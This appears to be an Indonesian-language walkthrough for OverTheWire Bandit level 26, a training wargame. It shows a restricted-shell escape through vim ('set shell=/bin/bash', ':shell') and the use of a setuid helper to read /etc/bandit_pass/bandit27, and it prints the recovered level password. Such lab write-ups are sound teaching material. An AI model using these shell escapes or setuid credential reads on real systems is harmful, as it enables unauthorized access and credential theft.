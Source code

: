 # Level Goal
Good job getting a shell! Now hurry and grab the password for bandit27!

# Commands you may need to solve this level
ls

# Solusi 
login pada ***bandit26*** dengan resize terminal 
tekan ***v*** lalu ***:***
```
set shell=/bin/bash
```
lalu tekan ***:*** lagi
```
:shell
bandit26@bandit:~$ 
```
coba kita cat pada ***text.txt***
```
bandit26@bandit:~$ cat text.txt
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
bandit26@bandit:~$ 
```
lalu kita cek file pada ***bandit27-do*** ternyata seperti level sebelumnya (setuid). 
```
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
```
langsung kita cat dengan menjalanakan file tersebut, didapatkan password
```
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
<details>
<summary>Password</summary>
3ba3118a22e93127a4ed485be72ef5ea
</details>